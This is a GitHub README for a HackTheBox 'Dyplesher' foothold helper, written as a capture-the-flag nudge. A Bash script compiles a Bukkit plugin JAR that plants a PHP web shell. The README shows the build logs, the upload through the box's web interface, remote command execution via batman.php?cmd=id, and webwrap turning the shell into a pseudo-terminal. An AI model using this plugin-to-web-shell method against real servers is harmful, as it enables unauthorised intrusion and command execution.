 # HTB-Dyplesher :alien:
# Warning message
**This is _not_ a complete write-up for the Dyplesher (10.10.10.190), box always active (27-09-2020), just a small nudge for the foothold part.**

**I developed this Bash script and use these files because I didn't want to depend/use on a heavy Integrated Development Environment (IDE).**
# Description
Ceate a Bukkit plugin without using an IDE. This is a simple build script written in Bash to create your Java archive data (JAR) from a Linux platform.

The JAR file will create a PHP web shell.

I used it on the box Dyplesher from HackTheBox platform to obtain the first "pseudo" shell on the box.

(source: https://bukkit.org/threads/creating-plugin-without-an-ide.136603/page-2)
# Usage/Installation
Unzip the zip file and execute the Bash script:
```
git clone https://github.com/choupit0/HTB-Dyplesher.git
cd HTB-Dyplesher
unzip payload.zip
cd payload/
./Compile.sh
```
# Logs

```
root@HTB:~# git clone https://github.com/choupit0/HTB-Dyplesher.git
Cloning into 'HTB-Dyplesher'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 17.05 MiB | 4.38 MiB/s, done.
```

```
root@HTB:~# cd HTB-Dyplesher/
root@HTB:~/HTB-Dyplesher# unzip payload.zip
Archive:  payload.zip
   creating: payload/
   creating: payload/htb/
   creating: payload/htb/dyplesher/
   creating: payload/htb/dyplesher/plugin/
  inflating: payload/htb/dyplesher/plugin/CreateFile.java
   creating: payload/lib/
  inflating: payload/lib/spigot-1.8.jar
   creating: payload/bin/
   creating: payload/bin/htb/
   creating: payload/bin/htb/dyplesher/
   creating: payload/bin/htb/dyplesher/plugin/
  inflating: payload/Compile.sh
   creating: payload/src/
  inflating: payload/src/plugin.yml
```

```
root@HTB:~/HTB-Dyplesher# tree
.
├── payload
│   ├── bin
│   │   └── htb
│   │       └── dyplesher
│   │           └── plugin
│   ├── Compile.sh
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.java
│   ├── lib
│   │   └── spigot-1.8.jar
│   └── src
│       └── plugin.yml
├── payload.zip
└── README.md

10 directories, 6 files
```

```
root@HTB:~/HTB-Dyplesher# cd payload/
root@HTB:~/HTB-Dyplesher/payload# ./Compile.sh
added manifest
adding: htb/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/CreateFile.class(in = 1410) (out= 847)(deflated 39%)
adding: plugin.yml(in = 187) (out= 146)(deflated 21%)
```

Our JAR file named "createfile.jar" has been created:
```
root@HTB:~/HTB-Dyplesher/payload# tree
.
├── bin
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.class
│   └── plugin.yml
├── Compile.sh
├── createfile.jar
├── htb
│   └── dyplesher
│       └── plugin
│           └── CreateFile.java
├── lib
│   └── spigot-1.8.jar
└── src
    └── plugin.yml

9 directories, 7 files
```
# Obtaining a "pseudo" shell
Put in your hosts file: dyplesher.htb + [subdomain].dyplesher.htb = 10.10.10.190

Once you have you JAR file, add the plugin and reload it on the web interface:

http://dyplesher.htb/home/add
http://dyplesher.htb/home/reload

Then, check you can launch a PHP command:

http://[subdomain].dyplesher.htb/batman.php?cmd=id

uid=1001([user]) gid=1001([user]) groups=1001([user]),122([group])

Finally, install this great tool:

https://github.com/mxrch/webwrap

With your web shell you will be able to simulate a terminal:

```
root@HTB:~/HTB/Dyplesher/webwrap# ./webwrap http://[subdomain].dyplesher.htb/batman.php?cmd=WRAP

[user]@dyplesher:/var/www/[subdomain]$ ls
README.md
batman.php
index.php
```

I let you imagine the rest, no too many spoilers here ;)
